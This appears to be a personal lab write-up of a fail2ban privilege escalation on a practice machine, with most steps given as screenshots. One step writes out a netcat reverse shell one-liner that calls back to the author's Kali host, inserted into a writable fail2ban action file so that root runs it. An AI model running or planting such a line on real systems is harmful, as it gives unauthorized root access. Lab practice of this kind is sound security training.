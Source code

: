 #### -Ran "LunEnum.sh" script and found user "fox" is an owner of "fail2ban" group:

![](../Pasted%20Images/Pasted%20image%2020220525160309.png)

#### -Googled "fail2ban privilege escalation" and found the following webpage showing the steps to escalate privileges:

![](../Pasted%20Images/Pasted%20image%2020220525160438.png)

![](../Pasted%20Images/Pasted%20image%2020220525160505.png)

![](../Pasted%20Images/Pasted%20image%2020220525160515.png)

![](../Pasted%20Images/Pasted%20image%2020220525160523.png)

![](../Pasted%20Images/Pasted%20image%2020220525160536.png)

![](../Pasted%20Images/Pasted%20image%2020220525160549.png)

#Fail2BanPrivilegeEscalation

#### -Per steps above I navigated to "/etc/fail2ban/action.d" folder and typed "ls –la" and found group "fail2ban" has write priviliges on file "iptables-multiport-log.conf":

![](../Pasted%20Images/Pasted%20image%2020220525160617.png)

#### -Typed "vim iptables-multiport-log.conf" and typed "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc [my kali IP] >/tmp/f" to execute a reverse shell on port 85 (syntax found in www.revshells.com) towards the end of the file in vim

![](../Pasted%20Images/Pasted%20image%2020220525161311.png)

#### -Ran a "penelope" listener on kali machine listening on port 85

#### -Typed "ssh @fox192.168.236.126" and typed in random passwords just to make "fail2ban" block my IP found in the steps to escalate privileges on the aforementioned website and then received a root shell on my "penelope" listener: 

![](../Pasted%20Images/Pasted%20image%2020220525161405.png)

